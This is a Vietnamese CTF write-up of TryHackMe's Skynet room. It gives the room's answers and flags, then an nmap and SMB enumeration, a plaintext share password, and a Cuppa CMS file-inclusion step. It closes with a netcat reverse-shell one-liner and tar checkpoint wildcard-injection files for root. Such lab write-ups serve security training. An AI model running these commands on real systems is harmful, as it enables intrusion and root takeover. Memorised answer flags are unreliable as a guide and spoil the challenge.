



# __Skynet__

--- 

## __Task 1  Deploy and compromise the vulnerable machine!__


Are you able to compromise this Terminator themed machine?



You can follow our official walkthrough for this challenge on [our blog](https://blog.tryhackme.com/skynet-writeup/).

### __Answer the questions bellow__

!!! question "What is Miles password for his emails?"
    cyborg007haloterminator

!!! question "What is the hidden directory?"
    /45kra24zxs28v3yd

!!! question "What is the vulnerability called when you can include a remote file for malicious purposes?"
    remote file inclusion 

!!! question "What is the user flag?"
    7ce5c2109a40f958099283600a9ae807

!!! question "What is the root flag?"
    3f0372db24753accc7179a282cd6a949

### __Scenario__

HOST: 10.10.158.216

Đầu tiên, scan port

```ps1 title="CMD"
└─$ sudo nmap 10.10.158.216
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-24 09:49 EDT
Nmap scan report for 10.10.158.216
Host is up (0.30s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 5.29 seconds
```

Và scan dir bằng gobuster ra nhận được /squirrelmail mang chức năng đăng nhập tài khoản squirrelmail. Từ đây sẽ là tiền đề để ta có thể có những bước tiếp cận tiếp theo.

Nhìn vào kết quả của nmap, ta thấy có dịch vụ smb từ port 445 và 139. Ưu tiên scan smb để xem có gì để khai thác tiếp không.

```
└─$ smbmap  -H 10.10.158.216
[+] Guest session       IP: 10.10.158.216:445   Name: 10.10.158.216                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        anonymous                                               READ ONLY       Skynet Anonymous Share
        milesdyson                                              NO ACCESS       Miles Dyson Personal Share
        IPC$                                                    NO ACCESS       IPC Service (skynet server (Samba, Ubuntu))
         
```

Từ kết quả trên, ta thấy rằng smb cho phép login ẩn danh nhưng chỉnh có quyền đọc file/folder thôi (nhưng như thế đã quá đủ rùi ::) ). 

??? tip "Hửm???"
    smbclient //10.10.158.216/anonymous

Sau khi vào bằng ẩn danh ta osint tiếp và tìm được file chứa dãy từ đặc biệt, ta đoán đây là password cho user `milesdyson`.

Brute force password và login vào trang /squirrelmail, ta được giao diện chính. Tiếp tục lại thấy email reset password, lần này là pass smb.



??? tip "Hửm???"
    smbclient //10.10.158.216/milesdyson -U=milesdyson 
    
    > pass: )s{A&2Z=F^n_E.B`

Login và nhận được domain mới, gobuster tiếp để nhận được giao diện login của cuppa cms ::)

??? info "Hửm???"
    Thực ra ngay chỗ squirrelmail, ta dùng searchsploit để khai thác thì ra được RCE nhưng mình mãi khum khai khác được chỗ đó, nên mới tìm hướng tiếp .-.

Roài tới đây thì step by step theo `searchsploit cuppa cms` là ra kết quả :3

??? tip "Hửm"
    

Chú ý file backup.sh để leo thang đặc quyền root

??? tip "Hửm hửm hửm"
    cd /var/www/html

    ```ps1
    echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| nc HOST PORT >/tmp/f" > shell.sh
    echo "" > "--checkpoint-action=exec=sh shell.sh"
    echo "" > --checkpoint=1
    ```

Video khai thác

<iframe width="560" height="315" src="https://www.youtube.com/embed/2MhFNwcKdnY?si=Es4eadjjwrzUbelY" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>